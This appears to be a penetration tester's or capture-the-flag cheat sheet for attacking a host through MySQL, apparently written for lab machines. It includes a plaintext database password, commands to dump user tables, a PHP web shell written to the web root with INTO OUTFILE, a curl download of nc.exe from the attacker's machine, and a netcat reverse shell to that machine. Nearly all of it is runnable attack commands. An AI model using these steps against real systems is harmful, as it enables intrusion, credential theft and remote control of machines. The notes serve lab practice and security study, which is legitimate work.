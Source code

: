 found db/sql creds:
```
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
```
- `P4ntherg0t1n5r3c0n##` is password goes between `-p''`
- `joomla` is name of database
default root sql creds:
```
mysql -h 10.10.13.141 -u root -p
```
- will prompt for password (press enter, default is blank)
```
show databases;
```
- look for one that isn't information_schema, mysql, performance_schema, phpmyadmin, or test
```
use news;
```
- select database from output of last query
```
show tables;
```
- looking for users or something else juicy
```
select * from users;
```
- show all users in table

if sql creds are for root user, check file write privilege:
```
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
- create php shell on hosted website
- go to url http://10.10.247.22/dev/shell.php?cmd=whoami
	- if you see nt authority\system, you have a root webshell
		- can transfer nc.exe from another low-privilege shell by setting up python server `python3 -m http.server 80` on kali machine and from low priv shell run `curl http://10.8.0.136/nc64.exe -o C:/Windows/Temp/nc.exe`
		- then start listener of kali machine and run `C:/Windows/Temp/nc.exe 10.8.0.136 2222 -e cmd.exe`